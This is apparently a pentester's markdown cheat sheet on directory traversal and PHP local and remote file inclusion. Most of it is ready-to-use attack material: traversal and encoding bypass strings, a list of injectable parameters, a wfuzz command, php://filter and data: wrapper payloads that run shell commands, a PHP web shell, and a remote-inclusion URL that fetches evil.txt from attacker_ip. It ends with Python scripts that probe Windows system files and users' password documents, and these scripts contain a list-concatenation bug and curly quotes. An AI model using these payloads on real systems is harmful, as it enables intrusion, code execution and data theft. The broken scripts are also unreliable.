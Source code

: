# File Inclusion And Directory Traversal

File Inclusion facilitation stems from Directory traversal vulnerabities. Directory traversal or path path traversal are identifiable by an ability to manipulate file paths with cli-esque: `../` or `..\` characters to change directory from the webpage beeing attacked. For [[Log-Poisoning]]

## Indication of Vulnerability
Locate parameteres and test for manipulation and arbitrary file reading.
1. URL query strings
	1. file extensions in URL query strings
1. Form bodies in search of values that appear as file references

Readable files by the `www-data` or account used to host the web server can be then be tested from the starting position of the web root directory such Linux's `/etc/passwd` or Window's `C:boot.ini`   

Warning messages can then reveal which functions are used in invalid parameter passing of one the above files.

## Traversal encoding:
Remember this is a guide to ideas of how to encode lfi, encoding payloads on the fly not from here.
```
../
..\
..\/
../etc/passwd\.\	# Path and dot truncation
../etc/passwd/./
%2e%2e%2f
%252e%252e%252f 	# Double encoding
%c0%ae%c0%ae%c0%af	# utf-8 encoding
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
....\
%00					# null byte
....////			# filter bypass
/%5C../%5C..

```

##  File inclusion Types
Local File Inclusion are occurent when the included file is present on the web server; Remote File Inclusion when a file is loaded from a remote source. Each is dependent of the language the  application is written in and server configuration.

For Windows files [[DT-FI-Windows-Files]]; for Linux files [[DT-FI-Linux-Files]]

## Indication of FIs
Locate parameteres and test for manipulation and arbitrary file execution.

Rabbit holes \/ Pitfalls:
1. Modern PHP versions disables remote URL includes
2. Routing and firewall rules regarding **ATTACKER PORT USAGE!** for connecting back to local attacking IP

## Testing
1. Invalid input
2. Regular page - index.php
3. Imply filter `php://filter/convert.base64-encode/resource=` to exfil php source code
4. Host a remote file and test for remote file inclusion
	1. Wrappers `http://`, `ftp://`
	2. `expect://`

## Vulnerable Functions 
Language | LFI/RFI | Function | Caveats | RTFM
--- | --- | --- | ---
[[Vulnerable-PHP-Functions]] | Both | `include()` | `badquery?file=` then `php://filter/convert.base64-encode/resources=` | https://www.php.net/manual/en/function.include.php

## Indictions of (L|R)FIs - Functions
#### PHP
```php
// php.ini values:
register_globals
allow_url
```
RFI
```php
allow_url_include # Modern default is On, but RFI if off
```
[Older PHP apps have nullbyte vulnerability](https://www.php.net/manual/en/security.filesystem.nullbytes.php) 

## Wrappers
#### PHP
[RTFM PHP Wrappers](https://www.php.net/manual/en/wrappers.php)
```php
?data:text/plain,<?php echo shell_exec("dir") ?>
?base64:
```

## Parametres
[Hacktricks reference TR Bug Hunters](https://twitter.com/trbughunters/status/1279768631845494787)
```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```

## Fuzz for files
```bash
wfuzz -c -w ./lfi2.txt --hw 0 http://10.10.10.10/nav.php?page=../../../../../../../FUZZ
```

## Phpinfolfi

[[PHP-Webserver-Commonalities]], and phpinfo pages contain both the configuration for whether uploads are enabled but also  PHP Variables section that be then check after attempting upload.

```
Content-Type: multipart/form-data; boundary=BadFileFromBurp
Content-Length: 0

----BadFileFromBurp
Content-Disposition: form-data; name="anything"; filename="BadFile"
Content-Type: text/plain

This is Bad File from burp that will appear in the PHP info page as_FILE["anything"]
----BadFileFromBurp
```

[Payload all the things](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py)



## RFI Local Serving Payloads
```php
<?php echo shell_exec($_GET['cmd']); ?>
# For similar:
# http://poor_web_server/bad.php?file=http://attacker_ip/evil.txt&cmd=whoami
```


## Appendix
Script LFI starting 
ON TODO LIST
[rapid7 blog](https://www.rapid7.com/blog/post/2016/07/29/pentesting-in-the-real-world-local-file-inclusion-with-windows-server-files/)

```python
import requests
import webbrowser
 
 
url = 'http://www.testpage.com?page='
 
LFI = '../../../../../../../../../'
 
pages = ['WINDOWS/system32/drivers/etc/hosts', 'WINDOWS/system32/win.ini', 'WINDOWS/system32/debug/NetSetup.log', 'WINDOWS/system32/config/AppEvent.Evt', 'WINDOWS/system32/config/SecEvent.Evt', 'WINDOWS/Panther/unattend.txt', 'WINDOWS/Panther/unattend.xml', 'WINDOWS/Panther/unattended.xml', 'WINDOWS/Panther/sysprep.inf']
 
for x in pages:
                  check = requests.get(url + LFI + x)
                  if check.status_code == 200:
                                    webbrowser.open(url + LFI + x)

import requests
import webbrowser
 
 
url = 'http://www.testpage.com?page='
 
LFI = '../../../../../../../../../'
 
usernames = ['bob.jones', 'tom.johnson', 'mary.thomas', 'bill.smith']
 
desktopini = '/Desktop/desktop.ini'
 
usersfiles = ['accounts.txt', 'passwords.doc', 'configs.txt', 'sensitiveinfo.doc']
 
for x in usernames:
                  check = requests.get(url + LFI + x + desktopini)
                  if check.status_code == 200:
                                    print(‘User ’ + x + ‘was found’)
                                    desktopsearch = requests.get(url + LFI + '/Desktop/' + usersfiles)
                                    if desktopsearch.status_code == 200:
                                                      webbrowser.open(url + LFI + '/Desktop/' + usersfiles)
```
						


## References
[certcube](https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/)
[Kory Kyzar](https://gist.github.com/korrosivesec)
[rapid7](https://www.rapid7.com/blog/post/2016/07/29/pentesting-in-the-real-world-local-file-inclusion-with-windows-server-files/)
[Older PHP apps have nullbyte vulnerability](https://www.php.net/manual/en/security.filesystem.nullbytes.php) 
[RTFM PHP Wrappers](https://www.php.net/manual/en/wrappers.php)